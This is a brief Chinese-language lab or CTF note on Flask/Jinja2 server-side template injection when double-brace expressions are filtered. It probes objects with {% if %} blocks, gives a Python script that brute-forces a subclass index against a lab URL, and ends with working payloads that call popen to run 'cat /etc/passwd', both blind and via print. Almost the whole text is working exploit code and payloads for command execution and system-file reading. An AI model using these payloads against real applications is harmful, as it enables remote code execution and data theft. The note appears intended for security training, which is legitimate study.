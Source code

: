 {% %}是属于flask的控制语句，且以{% end… %}结尾，可以通过在控制语句定义变量或者写循环，判断

```py
判断{{}}被过滤，尝试{%%}判断语句是否能正常执行{% if 2>1 %}benben{% endif %}，有回显
{%if''.__class__%}benben{%endif%}，有回显benben说明''.__class__有内容
{%if''.__class__.__base__.__subprocess__()['+str(i)+'].__init__.__globals__["popen"]("cat /etc/passwd").read()%}benben{%endif%}
```

```py
脚本:（查询可使用popen的子类编号）
import requests
url = 'http://172.31.130.66:8006/flasklab/level/2'
for i in range(500):
    try:
        data = {"code":'{%if "".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("cat /etc/passwd").read() %}Benben{% endif %}'}
        response = requests.post(url,data=data)
        if response.status_code == 200:
            if "Benben" in response.text:
                print(i,"--->",data)
                break
    except:
        pass

117 ---> {'code': '{% if "".__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]("cat /etc/passwd").read() %}Benben{% endif %}'}
再使用print()执行命令
{% print("".__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]("cat /etc/passwd").read()) %}
```
